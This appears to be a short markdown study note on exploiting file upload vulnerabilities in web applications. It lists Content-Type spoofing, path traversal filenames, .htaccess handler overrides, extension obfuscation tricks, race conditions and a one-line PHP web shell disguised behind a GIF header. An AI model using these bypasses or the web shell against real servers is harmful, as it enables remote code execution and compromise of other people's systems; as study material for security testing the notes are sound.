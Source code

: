# File upload vulnerabilities

### Flawed file type validation
 - During file upload, `multipart/form-data` is used.
 - Perhaps change content type.
```
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg
```
 - Here `Content-Type: image/jpeg`, when uploading different type, perhaps just setting this header may work ?

### Preventing file execution in user-accessible directories
 - Even if we can upload, user accessible directories may not be able to execute script files.
 - We might be able to upload file in different path
```
Content-Disposition: form-data; name="image"; filename="../../example.php"
```
 - If there is directory traversal vulnerability there we might be able to execute it.
 - In server response if `../` is stripped, try obfuscating `..%2fexploit.php`.

### Insufficient blacklisting of dangerous file types
##### Overriding the server configuration
 - Websevers can look at local directory configuration to override global config, for apache `.htaccess`. `AddType application/x-httpd-php .l33t`. Maps extension `.l33t` to `application/x-httpd-php` module.
 - Try to upload `.htacess` and then `shell.php`

##### Obfuscating file extensions
 - exploit.pHp
 - exploit.php.jpg
 - exploit%2Ephp
 - exploit.asp;.jpg
 - exploit.asp%00.jpg
 - exploit.p.phphp
 - For detailed explaination https://portswigger.net/web-security/file-upload

##### Flawed validation of the file's contents
 - Some check file contents as well.
 - Change header
```
GIF87a
<?php echo system($_GET['cmd']); ?>
```
 - For more https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/ .

###### Exploiting file upload race conditions
 - Some might rely on antimalware to remove it, for short period of time, the file might be present, during that time u might be able to access or execute php code even.
